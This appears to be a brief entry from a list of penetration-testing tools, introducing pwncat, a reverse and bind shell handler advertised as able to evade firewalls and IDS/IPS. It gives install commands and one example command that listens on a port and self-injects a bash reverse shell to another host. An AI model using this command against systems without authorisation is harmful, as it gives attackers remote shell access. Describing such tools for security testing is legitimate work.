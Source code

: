 ### Pwncat

`pwncat` is a sophisticated bind and reverse shell handler with many features as well as a drop-in replacement or compatible complement to `netcat`, `ncat` or `socat`.

  

> pwncat is like netcat on steroids with Firewall, IDS/IPS evasion, bind and reverse shell, self-injecting shell and forwarding magic - and its fully scriptable with Python ([PSE](https://github.com/cytopia/pwncat/tree/master/pse))

**Install pwncat**

```
# Kali Linux
sudo apt install pwncat


# pip
python3 -m pip install pwncat
```



```bash
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445+3
```
